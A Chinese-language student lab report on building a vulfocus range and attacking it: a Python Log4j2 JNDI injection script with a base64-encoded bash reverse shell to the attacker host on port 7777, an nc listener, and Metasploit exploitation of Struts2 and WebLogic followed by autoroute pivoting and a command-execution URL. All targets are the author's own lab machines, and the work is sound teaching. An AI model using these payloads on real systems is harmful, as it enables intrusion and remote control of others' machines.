


# 2024 夏网络空间安全综合实践-实验报告

## 环境

- `VirtualBox` Version 7.0.10 r158379 (Qt5.15.3)
- `Kali-Attacker`:
  - `VERSION_ID="2024.2"`
  - `hostname`: `kali-attacker.mlab`
- `ubuntu-victim`
  - `22.04.3 LTS (Jammy Jellyfish)`
  - `hostname`: `ubuntu-victim.mlab`

## 拉取 docker 镜像

### 网络配置

由于目前（2024 年 7 月）国内无法正常访问 docker 及其国内镜像

下面在 `VirtualBox` 的 `虚拟机` 中，配置使用 `宿主机` 的代理，以便拉取 docker 镜像

1. 首先确保 `虚拟机` 已使用 `NAT` 网卡连接到网络。


2. 确保宿主机上的代理服务已经启动。


3. 在 `虚拟机` 中配置使用 `宿主机` 的代理

```bash
cat<< EOF > /etc/docker/daemon.json
{
  "proxies": {
    "http-proxy": "http://10.0.2.2:7890",
    "https-proxy": "http://10.0.2.2:7890",
    "no-proxy": "*.test.example.com,.example.org,127.0.0.0/8"
  }
}
EOF

systemctl restart docker  # 重启 docker 服务
```

5. 检查代理是否配置成功

```bash
docker info | grep -i proxy
```


6. 拉取镜像

```bash
docker pull vulfocus/vulfocus:latest
```


### 原理解释

在 `VirtualBox` 的 NAT 模式下的拓扑图如下：


`NAT` 模式下，`虚拟机` 被分配到的 IP 地址均为 `10.0.2.15`，其 `网关` 均为 `10.0.2.2`

这完全是一个 `软件定义网络`，而且 `Virtualbox` 在 `NAT` 模式下，除了进行传统的 `NAT` 服务外，还有一个 _便捷功能_ ——将直接访问 `网关 10.0.2.15` 的流量转发到 `宿主机` 的 `localhost回环网卡` 中。

## 启动 vulfocus 容器

安装 `jq` 使得 `start.sh` 脚本能够解析 `json` 文件

```bash
sudo apt update && sudo apt install jq
```

由于 `docker compose` 已经默认集成到了 `docker` 中，这里对 [start.sh](https://github.com/c4pr1c3/ctf-games/blob/master/fofapro/vulfocus/start.sh) 脚本第 47 行更新为 `docker compose`：


成功访问 `web` 页面


## 漏洞利用

### JNDI 注入利用工具

```bash
wget https://github.com/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip  # 下载

unzip JNDIExploit.v1.2.zip  # 解压
```

为方便分辨，这里攻击者的 `hostname` 已经配置为 `kali-attacker.mlab`

下面在 `kali-attacker.mlab` 上运行 `JNDIExploit`：

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i kali-attacker.mlab  # 运行
```

### 攻击者监听 7777 准备接收 shell

```bash
nc -l -p 7777
```

### 受害者环境配置

由于直接在 `vulfocus` 中启动 `漏洞环境镜像` 默认 30 分钟后销毁，且由于其随机端口转发，不方便调试。故这里使用 `docker-compose` **直接启动** `log4j` 漏洞环境。

docker image: [vulfocus/log4j2-rce-2021-12-09:1](https://hub.docker.com/r/vulfocus/log4j2-rce-2021-12-09/tags)

```yaml
services:
  log4j:
    image: "vulfocus/log4j2-rce-2021-12-09:1"
    ports:
      - "8080:8080" # 固定端口转发
```

### 漏洞利用代码

```python
"""log4j2 JNDI 注入"""

import base64
import urllib.parse

import requests

ATTACKER_HOSTNAME = "kali-attacker.mlab"
VICTIM_HOSTNAME = "ubuntu-victim.mlab"

shell_redirection = f"bash -i >& /dev/tcp/{ATTACKER_HOSTNAME}/7777 0>&1"

shell_redirection_bytes = shell_redirection.encode("ascii")
shell_redirection_b64 = base64.b64encode(shell_redirection_bytes).decode("ascii")

print(f"Encoded string: {shell_redirection_b64}")


params = {
    # "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjIxNC83Nzc3IDA+JjE=}",
    # "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjU2LjE2Mi83Nzc3IDA%2BJjE%3d}",
    "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/"
    + urllib.parse.quote_plus(shell_redirection_b64)
    + "}",
}


response = requests.get(
    "http://ubuntu-victim.mlab:8080/hello",
    params=params,
    verify=False,
    timeout=10,
)

print(response.request.url)
print(response.text)
```

### Demo

[](https://asciinema.org/a/667333)

## 漏洞攻防

### DMZ 场景

直接导入 [DMZ.zip](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus) 到 `vulfocus` 会显示文件上传失败：


但是查看 `vulfocus` 日志，可以看到 `POST` 返回状态码为 200：


猜测是由于场景中的 `容器镜像版本更新` 或者 `vulfocus` 本身没有注重版本兼容性导致的问题

于是干脆自己照着图手搓了示例中的攻防场景：


导出 [DMZ_topology.zip](./DMZ_topology.zip) 当前（2024 年 7 月）可用

### 启动 DMZ 靶场

无法直接启动 `DMZ` 靶场，前端页面显示 `服务器内部错误`：


查看 vulfocus 日志发现 `容器启动失败`：


使用 `docker container ls -a` 检查容器状态，发现 `vulshare/nginx-php-flag` 容器启动后错误退出：


查看 `nginx` 容器日志：


顺藤摸瓜检查 `docker layer`：


怀疑由于启动命令 `2.sh` 导致的错误，查看 `2.sh` 脚本：


最后竟然发现是 `dnslog.cn` `无法进行域名解析` 导致的错误

至于为什么 `dnslog.cn` 无法进行域名解析，黄老师在上课前恰好已经做了十足的讲解了（但是没有想象到在这个容器中出现）。

不由地猜测此镜像作者预留这行代码的初衷，而且还是使用的 `&&` 而不是 `;` 进行连接——可能是为了在 `dnslog.cn` 统计此镜像的使用情况——但是还有一种情况是——这会暴露此用户的 `公网 IP 地址`——如果此容器：

1. 运行在一个有 `公网 IP` 的服务器上（没有经过 `NAT` 及防火墙），那么此用户的 `公网 IP` 就会被 `dnslog.cn` 记录下来。且在容器运行过程中，其 `ping` 操作一直都会进行
2. 容器端口被映射到了公网的网卡上
3. 容器 [vulshare/nginx-php-flag](https://hub.docker.com/r/vulshare/nginx-php-flag/tags) 的漏洞利用非常简单，而且可以拿到容器的 `root` 权限

攻击者可以据此确定该 `IP` 中正在运行 `靶场容器`——从而对此脆弱容器发起攻击——那么原本的 `靶场容器` 就成 `真肉鸡` 了！

但是即使在 `vulfocus` 这样一个即使是 **开源** 的 `漏洞集成平台`，**官方** 提供的镜像中竟然也存在着这样一个不大不小的可以称为为 “后门” 的命令——让人感慨！

### 修复 `vulshare/nginx-php-flag` 镜像

故下面在 `vulshare/nginx-php-flag` 镜像的基础上，`docker build` 一波：

```Dockerfile
FROM vulshare/nginx-php-flag
RUN echo "#!/bin/bash\n\
/etc/init.d/nginx start && /etc/init.d/php7.2-fpm start\n\
while true; do sleep 1000; done" > /2.sh
```


导入我们新构建的 `nginx-php-flag` 镜像：


再更新 `DMZ` 靶场：


`DMZ` 靶场容器启动成功：


### 捕获指定容器的上下行流量

`tmux` 后台挂起 `tcpdump` 抓包：

```bash
container_name="ebee1d978a00"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```


### Metasploit 连接 PostgreSQL 问题


在 `msfdb init` 后，`msfconsole` 无法连接 `PostgreSQL` 数据库，删除 `msf` 数据库（`msfdb delete`）后重新初始化依然报错

尝试手动连接 `postgreSQL` 数据库，并根据错误信息更新 `collection number`


但是 `Metasploit` 依旧无法连接 `PostgreSQL` 数据库

找了一个最新的的 `kali prebuilt` 镜像 `kali-linux-2024.2-virtualbox-amd64`，发现其能够正常连接 `PostgreSQL` 数据库


通过检查 `TCP 端口`，发现在之前的 `kali-attacker` 中，`PostgreSQL` 服务启动了两个版本。从 `apt policy` 中也可以看到：

全新安装：


原 `kali-attacker`：


故准备删除旧版本的 `PostgreSQL 15`，检查其 `rdepends` 反向依赖：


确认删除无影响后，`purge` `PostgreSQL 15`：


再次尝试 `msfdb init` 发现端口未开放：


由于之前同时运行 `postgress 15` 和 `postgress 16`，故 `postgress 16` 的端口号被 `postgress 16` 占用 `5432` 端口后使用 `5433` 端口，故更改 `postgress 16` 的端口号：


`vim /etc/postgresql/16/main/postgresql.conf` 更改 `port` 为 `5432`：


```bash
systemctl restart postgresql  # 重启服务
msfdb delete  # 删除原数据库
msfdb init  # 重新初始化
msfconsole  # 进入 Metasploit
```

现在成功连接 `PostgreSQL` 数据库：


回想起自己当前使用的虚拟机是一路从 `kali-linux-2023.3-virtualbox-amd64` `滚动更新` 到现在 `2024.2`，一年时间！

~~滚动更新一时爽，版本冲突火葬场~~

### 拓扑图



### 攻破靶标 1

信息收集——>`nmap` 端口扫描并尝试识别服务：

```bash
db_nmap -p 12862 192.168.56.175 -n -A
```

使用 `Metasploit` 的 `exploit/multi/http/struts2_multi_eval_ognl` 模块：

```bash
use exploit/multi/http/struts2_multi_eval_ognl
set payload payload/cmd/unix/reverse_bash  # 设置 payload 为 bash 反弹 shell
```

`options` 配置如下：


成功获取 `shell` 后，查看 `flag`：


#### autoroute

如果直接使用老师示例中的命令 `run autoroute -s 192.170.84.0/24` 会显示 `OptionValidateError The following options failed to validate`：


以下方法验证有效：

```bash
use multi/manage/autoroute
```

`options` 配置如下：



检查路由表：


### 攻破靶标 2 & 3 & 4

#### 探测服务

```bash
use scanner/portscan/tcp
```

详细配置如下：


发现服务：


#### 使用 multi/misc/weblogic_deserialize_asyncresponseservice

```bash
use multi/misc/weblogic_deserialize_asyncresponseservice
```


成功获取 `192.169.84.2` 主机 `shell`：


获取 `flag`：


同理，可以打下 `192.169.84.3` & `192.169.84.4` 并获取 `flag`：

#### 查看当前所有肉鸡的路由表

查看当前所有肉鸡的路由表以尝试横向移动：

```bash
sessions -c 'ip route'
```

发现在 `session 14 (192.169.84.3)` 中存在未知网段 `192.169.86.0/24`


更新当前网络路由表：

```bash
use multi/manage/autoroute
set SUBNET 192.169.86.0
set SESSION 16
```

配置如下：


更新后的路由表如下：


#### 扫描 `192.169.86.0/24`

```bash
use scanner/portscan/tcp
```

配置如下：


发现 `192.169.86.3:80` 中有服务：

#### 攻下 `192.169.86.3`

使用代理进行访问：

```bash
curl 192.169.86.3:80 -x socks5://127.0.0.1:1080; echo ''
```


已经在非常明显地提示我们这是一个 `命令执行漏洞` 了：

```bash
curl "192.169.86.3:80/index.php?cmd=ls+/tmp" -x socks5://127.0.0.1:1080; echo ''
```


<!-- ## Debug

在使用以下的 `python` 脚本验证 `log4j2` 漏洞时，遇到了下面的问题：

```python
"""log4j2 JNDI 注入"""

import base64
import urllib.parse

import requests

# ATTACKER_HOSTNAME = "kali-attacker.mlab"
ATTACKER_HOSTNAME = "192.168.56.162"
VICTIM_HOSTNAME = "ubuntu-victim.mlab"

shell_redirection = f"bash -i >& /dev/tcp/{ATTACKER_HOSTNAME}/7777 0>&1"

shell_redirection_bytes = shell_redirection.encode("ascii")
shell_redirection_b64 = base64.b64encode(shell_redirection_bytes).decode("ascii")

print(f"Encoded string: {shell_redirection_b64}")


params = {
    # "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjIxNC83Nzc3IDA+JjE=}",
    # "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjU2LjE2Mi83Nzc3IDA%2BJjE%3d}",
    "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/"
    # + urllib.parse.quote_plus(shell_redirection_b64)
    + shell_redirection_b64
    + "}",
}


response = requests.get(
    "http://ubuntu-victim.mlab:8080/hello",
    params=params,
    verify=False,
    timeout=10,
)

print(response.request.url)
print(response.text)
```


如上图所示，`base64` 编码后的字符串中含有 `+` 号，而 `+` 号在 `url 编码` 中表示 `空格`

但是 `python requests` 包会自动将 `payload` 自动进行 `url 编码`，如上图所示，`+` 号被成功替换为了 `%2B`

但是，在 **攻击者（Kali-Attacker）** 接收到 **被攻击服务器端（ubuntu-victim）** 的，其 `+` 被替换成了 `空格`——从而导致 `base64 解码失败`

使用 `wireshark` 抓包排查通信过程：


可以看到 **攻击者（Kali-Attacker）** 在接收时，`+` 就已经被错误替换成了 `空格`（错误 `base64` 形式）

故可以初步推断 **被攻击服务器端（ubuntu-victim）** 在接收到 `url` 时，对于 `parameters` 部分后 **进行了 2 次 url 解码** 导致了上述问题

对于上述表现，由于笔者没有查看 **被攻击服务器端（ubuntu-victim）** 对于 `url` 的解析代码，故无法给出准确的 **进行了 2 次 url 解码** 的原因。同时，查看 `jndi:ldap` 对于特殊字符的转义处理，也与 `url 编码` 标准不同——其不会将 `+` 解码为 `空格`（参见 [Special Characters](https://learn.microsoft.com/en-us/archive/technet-wiki/5392.active-directory-ldap-syntax-filters#Special_Characters)）

但是出于解决问题的目的，我们的 `exp` 代码可以进行 `二次 url 编码`，从而解决上述问题。`编码` 部分的代码如下：

```python
params = {
    "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/"
    + urllib.parse.quote_plus(shell_redirection_b64)  # 第一次 url 编码
    + "}",
}


response = requests.get(
    "http://ubuntu-victim.mlab:8080/hello",
    params=params,  # requests 自动会进行第二次 url 编码
    verify=False,
    timeout=10,
)
```


再在传输层面进行抓包验证：


再以 `+` 号为例，演示其编解码过程

```
攻击端（Kali-Attacker）：+ -> %2B -> %252B
受害端（ubuntu-victim）：%252B -> %2B -> +
```


## 参考

- [Configure the daemon to use a proxy](https://docs.docker.com/config/daemon/proxy/)
- [VirtualBox Network Settings: Complete Guide](https://www.nakivo.com/blog/virtualbox-network-setting-guide/)
 -->
